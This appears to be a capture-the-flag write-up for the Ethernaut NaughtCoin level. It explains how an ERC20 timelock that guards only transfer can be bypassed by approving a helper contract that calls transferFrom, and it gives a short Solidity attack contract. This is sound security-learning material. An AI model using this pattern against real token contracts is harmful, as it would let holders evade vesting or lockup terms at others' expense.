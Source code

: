 # Naught Coin Ethernaut

## Goals

=> NaughtCoin is an ERC20 token and you're already holding all of them. The catch is that you'll only be able to transfer them after a 10 year lockout period. Can you figure out how to get them out to another address so that you can transfer them freely? Complete this level by getting your token balance to 0.

### Hints

- The ERC20 Spec
- The OpenZeppelin codebase

### Solution

- The weakness lies in the `lockTokens()` modifier which only checks if the msg.sender is the player and then checks for the timeLock, if we just approve another contract for the amount of tokens we own, that contract could just call ERC20s `transferFrom()` and transfer the amount of tokens to an arbitrary addresss since he is an approved spender
- Step 1: Deploy Hack contract
- Step 2: Approve Hack contract for the balanceOf the player
- Step 3: Call attacj function on Hack contract

### Fuzzing Contract

```solidity
contract Hack {
    address player = msg.sender;
    NaughtCoin naughtCoin;
    constructor(address _naughtCoin){
        naughtCoin = NaughtCoin(_naughtCoin);
    }

    function attack() public {
        naughtCoin.transferFrom(player, address(this), 1000000000000000000000000);
    }
}
```
